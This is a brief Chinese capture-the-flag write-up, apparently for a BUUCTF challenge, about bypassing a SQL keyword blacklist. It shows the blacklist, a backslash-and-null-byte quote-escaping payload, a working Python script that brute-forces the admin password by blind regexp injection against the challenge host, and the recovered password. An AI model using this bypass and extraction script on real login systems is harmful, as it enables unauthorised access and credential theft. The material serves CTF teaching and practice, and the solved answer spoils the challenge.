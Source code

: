 robots.txt
![在这里插入图片描述](https://img-blog.csdnimg.cn/e158aa4d53504503b799ed9e3d72ba9f.png)
hint.txt
```php
$black_list = "/limit|by|substr|mid|,|admin|benchmark|like|or|char|union|substring|select|greatest|%00|\'|=| |in|<|>|-|\.|\(\)|#|and|if|database|users|where|table|concat|insert|join|having|sleep/i";


If $_POST['passwd'] === admin's password,

Then you will get the flag;

```
payload：
username: \
passwd：||sql语句;%00
语句发生变化如下           
```sql
select * from users where username='\' and passwd='||sql;%00'
```
前单引号闭合，后单引号被00截断

```python
import requests
import string
import time

url= "http://13225f23-d92b-48bf-b571-093a9f79f5f7.node4.buuoj.cn:81/index.php"

password = ""

str = '_'+string.ascii_lowercase+string.digits

for i in range (1,50):
	print(i)
	for j in str:
		data = {

			'username':'\\',
			'passwd':'||passwd/**/regexp/**/"^{}";\x00'.format(password+j)
		}
		print(data)
		res = requests.post(url=url,data=data)
		if r"welcome.php" in res.text:
			password+=j
			print(password)
			break
		elif res.status_code == 429:
			time.sleep(0.5)

```

you_will_never_know7788990
登录即可
